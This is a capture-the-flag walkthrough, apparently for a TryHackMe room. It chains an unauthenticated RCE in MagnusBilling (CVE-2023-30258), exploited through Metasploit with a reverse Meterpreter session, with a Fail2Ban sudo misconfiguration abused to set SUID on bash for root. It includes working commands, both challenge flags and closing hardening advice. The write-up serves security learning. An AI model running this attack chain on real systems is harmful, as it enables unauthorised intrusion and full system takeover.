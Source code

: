 **From MagnusBilling RCE to Root: Chaining CVE-2023–30258 with Fail2Ban Privilege Escalation**

**Overview**
In this detailed walkthrough, we traverse each phase of compromising a vulnerable MagnusBilling instance and elevating privileges through a misconfigured Fail2Ban setup. You’ll learn:

-How simple metadata leaks guide reconnaissance
-Exploiting an unauthenticated RCE (CVE-2023–30258) via Metasploit
-Navigating the post-exploit environment to capture user flags
-Weaponizing Fail2Ban with passwordless sudo to gain root
-Defensive lessons to harden similar infrastructures

Every command, output snippet, and screenshot reference is included to make replication and learning seamless.

— -

🧐 1. **Reconnaissance**

**1.1 robots.txt Reveals a Hidden Path**

We start by checking for `robots.txt` entries that indicate hidden directories:

curl http://<target-ip>/robots.txt

User-agent: *
Disallow: /mbilling/

robots.txt

**1.2 Page Source Confirms MagnusBilling**

A quick view-source on `/mbilling/` reveals the application name:

<title>MagnusBilling</title>

View-source page

This confirms we’re targeting a known VoIP billing platform with published CVEs.

**1.3 Comprehensive Nmap Scan**

We perform an aggressive Nmap scan to enumerate open ports, services, versions, and OS details:

nmap -A <taget-ip>

Key observations:

- 22/tcp (SSH): OpenSSH 9.2p1 Debian
- 80/tcp (HTTP): Apache httpd 2.4.62
- Disallowed `/mbilling/` path in robots.txt
- Host OS fingerprint: Linux 4.15

With the software and versions identified, we move on to exploitation.

— -

💥 2. **Exploitation of CVE-2023–30258**

MagnusBilling versions 6.x and 7.x suffer from an unauthenticated RCE vulnerability in `icepay.php`. We’ll leverage Metasploit for a reliable exploit.

**2.1 Setting Up Metasploit**

Load the module and configure payload:

msfconsole -q -a
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set lhost <your-ip/vpn-ip>
set lport <port>
set rhost <target-ip>
exploit

Gaining shell through Metasploit console

Notice the eight-second sleep test confirming command injection, followed by:

[*] Meterpreter session 1 opened (10.17.68.150:4444 -> 10.10.67.16:43332)

**2.2 Transitioning to a Shell**

We pivot from the Meterpreter session to a standard bash shell:

meterpreter > shell

— -

📁 3. **Capturing the User Flag**

**3.1 Verifying Initial Access**

Inside the shell, we confirm our user context:

whoami
asterisk

User logged in as

**3.2 Reading the User Flag**

We navigate to the Magnus user’s home directory and capture the user flag:

cd /home/magnus
ls
# user.txt
cat user.txt
# THM{4a6831d5f124b25eefb1e92e0f0da4ca}

With the user flag in hand, we turn our sights to privilege escalation.

— -

🔐 4. **Privilege Escalation via Fail2Ban**

**4.1 Enumerating Sudo Rights**

We list sudo permissions available to `asterisk`:

sudo -l

The key line is:

(ALL) NOPASSWD: /usr/bin/fail2ban-client

This allows us to run Fail2Ban commands as root without a password.

**4.2 Enumerating Fail2Ban Jails**

Next, we query the Fail2Ban jails to choose a target:

sudo /usr/bin/fail2ban-client status

Active jails (including `sshd`) are listed — perfect for injecting our payload.

**4.3 Injecting and Triggering the Malicious Action**

We create a new “evil” action and configure it to run `chmod +s /bin/bash` on ban:

sudo /usr/bin/fail2ban-client set <jail> addaction evil
sudo /usr/bin/fail2ban-client set <jail> action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set <jail> banip 1.2.3.5

Banning any IP triggers our “evil” action, setting the SUID bit on Bash.

— -

👑 5. **Root Shell & Final Flag**

**5.1 Spawning a Privileged Bash**

With `/bin/bash` now SUID-root, we launch a root shell:

/bin/bash -p
whoami
# root

**5.2 Extracting the Root Flag**

We move to the root directory and read the final flag:

cd /root
ls
# root.txt
cat root.txt
# THM{33ad5b530e71a172648f424ec23fae60}

— -

🧠 6. **Key Takeaways**

- Metadata Matters: robots.txt and HTML titles can directly point to exploitable apps.
- Least Privilege: Allowing passwordless sudo on security tools turns defense into attack.
- Chaining Flaws: Combining RCE with an abused security utility leads to rapid full compromise.

— -

📝 7. **Conclusion & Next Steps**

This write-up covers the full attack chain — from reconnaissance to root — illustrating how seemingly minor oversights can cascade into total system takeover. To harden against similar attacks:

    Restrict sudo permissions to only necessary commands and users.
    Patch web applications promptly against known CVEs.
    Audit and monitor security-tool configurations regularly.

Feel free to adapt this walkthrough into your own post, share it with your team, or use it as a blueprint for auditing your infrastructure.
